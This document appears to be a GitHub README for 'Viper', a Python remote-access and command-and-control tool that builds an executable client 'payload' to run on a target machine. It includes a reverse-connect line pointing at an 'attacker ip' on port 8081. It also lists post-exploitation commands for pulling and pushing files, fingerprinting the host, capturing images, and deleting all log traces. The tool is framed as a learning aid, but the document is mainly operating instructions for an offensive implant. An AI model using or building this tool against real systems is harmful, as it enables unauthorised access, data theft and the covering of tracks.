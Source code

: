 

***VIPER***


Viper is designed in order to retrieve compromised files, processes, and services in case you have to reach out and grab information quickly. 
The viper can also be used for testing exploitation and enumeration for the purpose of learning offensive for defensive actions.

Viper also has team server capabilities *I am still working out bugs but it works great currently with command line

This program was created as a basic function to reach out and grab things fast! Powered by twisted python. 

I have recently added a twisted webserver and chat server for teamdevops


viper has been tested on kali 2.0 x86

***Instalation instructions***

The installer.sh should install everything for you

Important note: You may want to take a virtual-image snapshot before running installer.sh. This should work perfectly though. 

***Install commands***

```
navigate to vipers root directory
$>chmod +x installer.sh
$>./installer.sh

```

The installer will back up your ~/.bashrc file and This should do the tricks and get you up and running. 

You will need to verify the installer adds the python path to the end of the ~/.bashrc

Quick pythonpath help commands. This should be done for you while doing instalation. I still have to confirm this again

```
echo export PYTHONPATH="" >> ~/.bashrc
source ~/.bashrc

```

***libraries installed and current requirements check install.sh for mods***

```
python-twisted +16.6;
PyCrypto;
pyOpenSSl;
Zope interface;
python 2.7;
python-2.7.13.msi;
pyinstaller-3.1.1;
future-0.16.0;
wine;
winetricks;

```

***Usage:***

***to start the viper console:***

```
$$> chmod +x start-teamserver.sh
$$> ./start-teamserver.sh
```

***usage:***

start the handler first and then start the client on the target machine

viper main commands:

```
[*] handler ========= > "starts the viper server and waits for a call back" 
[*] buildfang ========= > "creates a basic exe file from viperclient.py and stores it inside payloads"; 
[*] chatserver ========= > will start your chat server on port 8123. You will have to open a new terminal to connect
[*] stopchat ========= > will tear down the chat server when needed
[*] startweb ========= > starts the webserver
[*] stopweb ========= > stops the webserver
```

***build fang pre-instructions***

Inside viper client modify these two lines with your local ip address

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('address you want to connect back to, attacker ip', 8081))


***viper connection commands:***

use these once you get the call back from the client. first you will need to enter in the local host and port number that you assigned to the client before deploying. 

```
[*] download ========= > downloads a file from the client machine (ex: download #source #dest);
[*] upload   ========= > uploads a file to the client machine (ex: upload #source #dest);
[*] getenv       ========= >  prints the system information";
[*] getuid       ========= > Get the user level access of the shell";
[*] SystemInfo   ========= > Get Fingerprint of the system"; todo
[*] capture      ========= > take images of the host machine "; todo
[*] Cover        ========= > Delete all traces of logs"; todo
```

*important note: to upload or download source or dest must be full file paths with file names or program may currently break. #working on this. 


```
Please help Contribute!

1. Fork it!
2. Create your feature branch: git checkout -b my-new-feature
3. Commit your changes: git commit -am 'Add some feature'
4. Push to the branch: git push origin my-new-feature
5. Submit a Pull Request
```
